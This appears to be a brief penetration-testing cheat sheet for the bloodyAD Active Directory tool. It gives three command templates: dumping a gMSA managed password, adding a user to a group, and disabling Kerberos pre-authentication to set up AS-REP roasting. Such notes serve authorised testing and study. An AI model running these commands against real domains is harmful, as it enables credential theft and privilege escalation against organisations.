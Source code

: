 # BloodyAD

## Link: https://github.com/CravateRouge/bloodyAD

### Usage:

#### 1)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k get object 'GMSA01$' --attr msDS-ManagedPassword

(Dump GMSA Password)

#### 2) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add groupMember "TARGET_GROUP" "USER_TO_ADD"

(Add a user to a group)

#### 3) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add uac TARGET_USER -f DONT_REQ_PREAUTH

(Disable pre-authentication on a user to do ASREPRoasting attack)
